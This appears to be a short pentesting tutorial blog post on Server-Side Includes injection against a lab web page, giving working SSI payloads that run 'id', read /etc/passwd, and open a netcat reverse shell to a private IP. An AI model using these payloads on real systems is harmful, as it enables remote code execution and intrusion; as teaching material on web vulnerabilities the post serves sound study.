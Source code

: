 ```yaml
---
layout: post
title: Server-Side Includes (SSI) Injection
categories:
  - Web-Pentesting
---
```


<p>SSIs are directives present on Web applications used to feed an HTML page with dynamic contents. They are similar to CGIs, except that SSIs are used to execute some actions before the current page is loaded or while the page is being visualized. In order to do so, the web server analyzes SSI before supplying the page to the user.</p>
<br>The Server-Side Includes attack allows the exploitation of a web application by injecting scripts in HTML pages or executing arbitrary codes remotely. It can be exploited through manipulation of SSI in use in the application or force its use through user input fields.
<br>To check first put some name in the field

![43](https://teckk2.github.io/assets/images/Web%20Pentest/A1/43.png)
![44](https://teckk2.github.io/assets/images/Web%20Pentest/A1/44.png)
<br>It's showing our input name and our machine IP
![45](https://teckk2.github.io/assets/images/Web%20Pentest/A1/45.png)
<br>But if you focus in the URL it’s not html it’s shtml that’s because it’s using server side include, now because of this we can try server side include injection on this
![46](https://teckk2.github.io/assets/images/Web%20Pentest/A1/46.png)
<br><font color="Green"> <!--#exec cmd="id"--> </font>
<br>Yes, this looks like a comment in HTML/XML but it’s not! This SSI varies from server to server(Linux to Windows).
We
![47](https://teckk2.github.io/assets/images/Web%20Pentest/A1/47.png)
<br>We got RCE from this
<br>You can also try few other commands also
<br><font color="Green"> <!--#echo var="DATE_LOCAL" --> </font>
<br><font color="Green"> <!--#exec cmd="cat /etc/passwd"--> </font>
<br>**Getting shell from RCE**
![48](https://teckk2.github.io/assets/images/Web%20Pentest/A1/48.png)
<br><font color="Green"> <!--#exec cmd="nc -nv 192.168.140.136 4455 -e /bin/bash"--> </font>
![49](https://teckk2.github.io/assets/images/Web%20Pentest/A1/49.png)

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
